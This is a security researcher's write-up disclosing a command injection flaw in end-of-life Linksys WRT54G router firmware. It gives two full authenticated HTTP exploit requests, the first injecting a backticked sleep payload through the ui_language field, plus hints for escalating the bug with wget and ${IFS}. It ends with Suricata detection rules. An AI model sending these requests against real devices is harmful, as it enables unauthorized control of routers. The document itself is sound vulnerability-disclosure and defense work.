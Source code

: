 ```yaml
---
layout: posts
title:  "Linksys WRT54G - v3.1"
date:   2020-03-24 00:00:00 -0600
categories: linksys firmware wrt54g exploit command-injection
author: Nicholas Starke
---
```


This write up will go over how I found an exploited a command injection vulnerability in a `Linksys WRT54G` Small Office / Home Office router.

I downloaded the firmware for `Linksys WRT54G` version `3.1` from here:

[https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin](https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin)

Note that this firmware file is from 2012. According to [this link](https://www.linksys.com/us/support-article?articleNum=291978), the end of life (EOL) date for this device was:

>Prior to 2012

Since this device has been EOL'd for **at least** eight years (if not more), I am publishing this write up without reaching out to the vendor since it is unlikely to be patched at this point.  If you are still using this equipment, valid countermeasures to protect aginst this vulnerability include changing the default credentials for your router. Suricata rules are also included at the bottom of this write up.

## Hunting for Command Injection

Next I extracted the squashfs filesystem from the `FW_WRT54Gv4_4.21.5.000_20120220.bin` file using `binwalk -eM FW_WRT54Gv4_4.21.5.000_20120220.bin`.

Before I begin command injection testing, I want to know whether or not the `telnetd` or `utelnetd` binaries exist on the firmware filesystem, so I do a quick `find . -iname "*telnet*"`.  I don't find any results, so I will have to fall back to the `/bin/sleep` methodology for command injection testing. This methodology focuses on timing differences when a `sleep` sub-command is injected into a call to `system`.

Opening up `/usr/sbin/httpd` in Ghidra, we can start to look for command injection vulnerabilities. I start with the `system` function and viewing all instances of this function in the binary:

!["System Calls"](/images/0034-system-calls.png "System Calls")

The first few calls are located in a function called `do_upgrade_post`, which by reading through it we can infer that this is the function that handles the configuration restore feature at the url path `/restore.cgi`.  

!["Command Injection"](/images/0034-command-injection.png "Command Injection")

The following code is particularly interesting:

```c++
puVar7 = (undefined *)nvram_get("ui_language");
uVar8 = 0;
if (puVar7 == (undefined *)0x0) {
  puVar7 = &DAT_0047a2b8;
}
snprintf(acStack88,0x40,"cp /www/%s_lang_pack/captmp.js /tmp/.",puVar7);
system(acStack88);
```

In other words, if we can control the value of the NVRAM parameter `ui_language`, we can exploit this vulnerability.

It turns out we can control this value without any filtering happening on the server.  The following HTTP request demonstrates setting a malicious value for `ui_language` and 'primes' the vulnerability:

```http
POST http://192.168.1.1/apply.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 682
Authorization: Basic YWRtaW46YWRtaW4=
Referer: http://192.168.1.1/apply.cgi
Host: 192.168.1.1

submit_button=index&change_action=gozila_cgi&submit_type=language&action=&now_proto=dhcp&daylight_time=0&lan_ipaddr=4&wait_time=0&need_reboot=0&ui_language=%60%2fbin%2fsleep%24%7BIFS%7D23%60&wan_proto=dhcp&router_name=asdf&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&lan_proto=dhcp&dhcp_check=&dhcp_start=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

The value we have chosen is:
```bash
`/bin/sleep${IFS}23`
```

If invoked in the target `system` function, it will cause the system to sleep for 23 seconds before continuing processing the request and eventually responding.

If we run the prime request and immediately follow it with an exploit request, we can achieve command injection.  The exploit request is:

```http
POST http://192.168.1.1/restore.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------169284500162711627955704791
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 362
Referer: http://192.168.1.1/Backup_Restore.asp
Host: 192.168.1.1

-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="submit_button"

Backup_Restore
-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="restore"; filename="WRT54GV2_v4.21.5.cfg"
Content-Type: application/octet-stream

-----------------------------169284500162711627955704791--
```

Pay attention to the length of time it takes for this request to complete.  The request normally takes 5-6 seconds to complete; if you run the 'prime' request first, that length of time will extend past 23 seconds to between 28-30 seconds.  This is because `sleep 23` is being passed along to the `system` function and the kernel is subsequently waiting 23 seconds to resume processing.

## Analysis
Both requests are authenticated and the exploit requires two web requests.  In reality, this is probably not a very practical exploit.  Even if the default credentials are set at `admin:admin` and you can make the two web requests, there is no easy way to gain an interactive shell since the prerequisite binaries for the telnet daemon are not present.  Also since this command injection does not return any output ("blind" command injection), it is not useful for retrieving data from the device.  One could conceivably compile their own busybox `telnetd` binary and retrieve it over HTTP using `wget` (which is installed in the firmware at `/usr/bin/wget`).  Keep in mind the `ui_language` parameter expects no space characters, and the command injection seems to fail if any space characters are present in the payload.  Use `${IFS}` in place of spaces.

## Suricata Rules to Protect Yourself

### Suricata 5.0

```
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; http.method; content:"POST"; http.header; content:"Authorization|3a 20|Basic|20|"; http.uri; content:"/apply.cgi"; startswith; http.request_body; content:"change_action=gozila_cgi"; fast_pattern; content:"submit_type=language"; content:"&ui_language="; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/R"; classtype:attempted-admin; sid:1; rev:1;) 
```

### Suricata 4.0

``` 
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; content:"POST"; http_method; content:"Authorization|3a 20|Basic|20|"; http_header; content:"/apply.cgi"; http_uri; depth:10; content:"change_action=gozila_cgi"; http_client_body; fast_pattern; content:"submit_type=language"; http_client_body; content:"&ui_language="; http_client_body; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/PR"; classtype:attempted-admin; sid:1; rev:1;)
```

Thanks to [@zoomequipd](https://twitter.com/zoomequipd) for the rules.